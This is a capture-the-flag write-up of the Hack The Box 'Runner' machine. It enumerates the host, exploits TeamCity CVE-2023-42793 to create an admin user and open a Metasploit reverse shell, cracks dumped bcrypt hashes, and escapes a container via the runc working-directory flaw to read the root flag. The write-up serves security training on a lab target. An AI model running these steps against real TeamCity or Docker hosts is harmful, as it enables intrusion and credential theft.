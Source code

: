 ```yaml
---
layout: post
title: "HTB Linux Medium: Runner"
description: "Runner is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 22,80,8000 -T4 10.129.217.112
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-04-20 15:23 EDT
Nmap scan report for runner.htb (10.129.217.112)
Host is up (0.028s latency).

PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
80/tcp   open     http        nginx 1.18.0 (Ubuntu)
|_http-title: Runner - CI/CD Specialists
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.33 seconds
```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.217.112 runner.htb
```


## Enumerate HTTP (Port 80)
Subdomain enumeration using the largest DNS SecList wordlist returned the teamcity subdomain.
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/n0kovo_subdomains.txt -H "Host: FUZZ.runner.htb" -u <http://runner.htb> -fs 154 

        /'___\\  /'___\\           /'___\\       
       /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/       
       \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\      
        \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/      
         \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\       
          \\/_/    \\/_/   \\/___/    \\/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : <http://runner.htb>
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/n0kovo_subdomains.txt
 :: Header           : Host: FUZZ.runner.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 349ms]
```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.248.232 runner.htb teamcity.runner.htb
```

Browsing to the newly found subdomain, we get a teamcity page with the version of 2023.05.3.
![Pasted image 20240714211941.png](/images/Pasted image 20240714211941.png){: .normal width="500"}


Whilst googling for exploits we come across the following: [PoC](https://github.com/johnossawy/CVE-2023-42793_POC/blob/main/CVE_2023_42793.py)
```bash
┌──(kali㉿kali)-[~]
└─$ python3 hacker.py -u <http://teamcity.runner.htb/>          
Targeting URL: <http://teamcity.runner.htb/>
Attempting to delete user token for <http://teamcity.runner.htb>...
Attempting to create a new user token...
Successfully created a new user token.
Attempting to create a new user with token: eyJ0eXAiOiAiVENWMiJ9.LTcyWndQVG5RWHRVQklkTUh5azQ3Y1lFSGUw.MGUzZDc4ZGQtZjk0YS00NzRkLTg4ZTEtNDgxMTExOTg2MzVk
Successfully created a new user.
[+] <http://teamcity.runner.htb/login.html> [_secops8223:changeme]
```

Further googling reveals a Metasploit module that can gain us shell access: [Link](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)
```bash
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set target 1
target => 1
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set lhost tun0
lhost => 10.10.14.65
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set rport 80
rport => 80
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set rhosts teamcity.runner.htb
rhosts => teamcity.runner.htb
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > run
[*] Started reverse TCP handler on 10.10.14.65:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.N3VVSDNNTWx3eEU1bkt5TkdUYkZiQ0NJWWZZ.NGEyMzM3MDQtNmE1Yi00ZjQwLWFkYzUtMTA3ODkwMDA4OWQ3
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (3045380 bytes) to 10.129.248.232
[*] Waiting for configuration change to be applied...
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (10.10.14.65:4444 -> 10.129.248.232:58004) at 2024-04-21 02:34:47 -0400

meterpreter > getuid
Server username: tcuser
```


## Lateral movement
On the administration page you have the option to make a backup.
![Pasted image 20240714211931.png](/images/Pasted image 20240714211931.png){: .normal }


In the backup we find a users table.
```bash
┌──(root㉿kali)-[/tmp/database_dump]
└─# cat users       
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1713681282787, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, _secops8223, $2a$07$FzqJBbqZlw6yrv3UcJ2mlux4VkeUERYpXMezC17w..I.QsViPRGBK, , "", 1713680779785, BCRYPT
```

Additionally we find an SSH key.
```bash
┌──(root㉿kali)-[/tmp]
└─# find . -name *ssh* 2>/dev/null
./config/projects/AllProjects/pluginData/ssh_keys
```

We were able to crack the password for the matthew user.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 128 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
piper123         (?)     
1g 0:00:00:55 DONE (2024-04-21 02:44) 0.01818g/s 946.4p/s 946.4c/s 946.4C/s playboy93..onelife
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Trying to SSH using the private key we are able to login using the john user.
```bash
┌──(kali㉿kali)-[~/…/projects/AllProjects/pluginData/ssh_keys]
└─$ ssh -i id_rsa john@runner.htb             
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Sun Apr 21 07:54:17 AM UTC 2024

  System load:                      0.00390625
  Usage of /:                       84.1% of 9.74GB
  Memory usage:                     43%
  Swap usage:                       11%
  Processes:                        230
  Users logged in:                  0
  IPv4 address for br-21746deff6ac: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.248.232
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:bdd8

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

john@runner:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Linpeas reveals a subdomain.
![Pasted image 20240714211920.png](/images/Pasted image 20240714211920.png){: .normal }


We can login to portainer using the matthew user creds: `matthew:piper123`. Once logged in we have access to portainer.
![Pasted image 20240714211913.png](/images/Pasted image 20240714211913.png){: .normal }


Looks like we have the ability to create containers.
![Pasted image 20240714211909.png](/images/Pasted image 20240714211909.png){: .normal }


Found the following [Link](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd) to map the local machine directory to the container (set image to teamcity:latest). Also found a CVE by searching for recent docker exploits: [Link](https://snyk.io/blog/leaky-vessels-docker-runc-container-breakout-vulnerabilities/)
![Pasted image 20240714211905.png](/images/Pasted image 20240714211905.png){: .normal }


Now go into the container:
![Pasted image 20240714211901.png](/images/Pasted image 20240714211901.png){: .normal }


User flag: `8515d9dd417d61b2545317b936cd72b2`
```bash
root@c2940657e336:.# cat ../../../../../../../home/john/user.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
8515d9dd417d61b2545317b936cd72b2
```

Root flag: `3cb3c6014621c3fb167c05051cda70bb`
```bash
root@c2940657e336:.# cat ../../../../../../../root/root.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
3cb3c6014621c3fb167c05051cda70bb
```

## PWNED!!!
![Pasted image 20240714211856.png](/images/Pasted image 20240714211856.png){: .normal }
